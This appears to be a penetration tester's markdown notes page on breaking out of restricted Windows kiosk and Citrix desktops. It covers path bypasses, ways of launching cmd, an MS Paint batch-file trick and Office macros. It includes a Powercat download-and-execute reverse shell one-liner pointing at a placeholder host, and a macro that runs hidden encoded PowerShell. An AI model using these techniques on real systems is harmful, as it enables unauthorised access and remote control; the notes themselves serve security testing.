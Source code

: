 ```yaml
---
layout: blank
pagetitle: Kiosk Breakouts
---
```


Amazing resource: [https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#dialogboxes](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/#dialogboxes)

Kiosk breakout badusb script: [https://github.com/KhaelK138/badusb-windows-kiosk-breakout/blob/main/breakout_payload.txt](https://github.com/KhaelK138/badusb-windows-kiosk-breakout/blob/main/breakout_payload.txt)

## Windows

**Bypassing Path Restrictions**
- Sometimes, paths like `C:\Windows\` will be restricted, but we can use `%WINDIR%` or `shell:MyComputerFolder` to bypass this
  - More path bypasses can be found in the link at above
- Other protocol handlers, such as `about:`, `data:`, `ftp:`, `mailto:`, `news:`, `res:`, `telnet:`, `snews:`, or `view-source:` can also be an avenue for a breakout
  - [This website](https://www.phrack.me/tools/2022/11/02/Kiosk-Breakout.html) provides links to a lot of these
  - FTP has specific command execution functionality, which can be used to bypass restrictions
    - `ftp` and then `!"{command_to_run}"`, such as `!"dir C:\Windows\System32"`
  - Hell even `calculator://localhost` exists, don't ask me why
  - Same goes for UNC paths, such as `\\127.0.0.1\C$\Windows\System32`

**Getting a Shell**
- Can simply run (Win+R) programs like `cmd`, `powershell`, or `powershell_ISE`
- Can right click and "open" the file
- Can drop another file, like a `.txt`, onto the `cmd` binary
- Can hyperlink to it via a file/web browser (`file:///C:/Windows/System32/cmd.exe` or `file:///C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe`)
- Can place direct commands in `.bat` or `.cmd` files, such as something as simple as `powershell`
  - For a full list of executable file types: [https://aerorock.co.nz/list-of-executable-file-extensions-windows/](https://aerorock.co.nz/list-of-executable-file-extensions-windows/)
- Can run Visual Basic inside a `.vbs` file with the following `set objApp = CreateObject("WScript.Shell"): objApp.Run "powershell"`

**Bypassing Disabled Interactive Sessions**
- If `cmd` is run with `/K` or `/C`, it won't allow for interactive commands
  - This can be bypassed by running `cmd.exe /K pause` or provided a command with `cmd.exe /C {command}`

**Bypassing Name Restrictions**
- It can sometimes be as easy as renaming `cmd.exe` to `mspaint.exe`

**Utilizing Internet Explorer**
- `file://c:\windows\system32\cmd.exe` is always a good shot
- Menus can open up all sorts of functionality
- Right-clicking images (or ctrl+s) can save-as, popping a file dialog
  - `file` > `Customize Internet Explorer view source` > `other` can allow us to set the application to view source as `C:\Windows\System32\cmd.exe`
- Favorites menu (with alt+c) and dragging a folder onto the browser window can work wonders
- Setting homepage to `cmd.exe` can also work
- Browser-based exploits - Metasploit can help host a webpage to exploit Explorer

**Citrix**
- If we can modify the `.ICA` file that Citrix uses as configuration, we can add `InitialProgram=cmd.exe` 

**Breaking out with MS Paint?!?!**
- Create a 6x1 canvas and setting certain pixels can allow us to write batch file code
  - RGB pixels in order: `10 0 0`, `13 10 13`, `100 109 99`, `120 101 46`, `0 0 101`, `0 0 0`
- Then, save as a 24-bit Bitmap and rename to a `.bat` file
- Finally, open the batch file

**MS Office Macros**
- We can often get a powershell Window by creating a `docx` file, opening it, and running a macro
  - To make macros: View -> Macros
  - Basic macro code that opens powershell:
	
```
Sub MyMacro()
  CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

- Powercat
  - Creates reverse shells, but detected by defender
    - Command to download/execute the reverse shell: `IEX(New-Object System.Net.WebClient).DownloadString('http://{IP}:{port}/powercat.ps1');powercat -c {IP} -p {port} -e powershell`
    - This is just grabbing a hosted powershell script
  - Can be passed to the macro by encoding it in chunks of 50 base64 characters:
    - `Dim Str as String`
    - `Str = Str + "powershell.exe -nop -w hidden -enc {base64}"`
    - `Str = Str + {base64}"`
    - `CreateObject("Wscript.Shell").Run Str`

**LOLBAS**
- Check out the binaries that can execute commands at [https://lolbas-project.github.io/#/execute](https://lolbas-project.github.io/#/execute)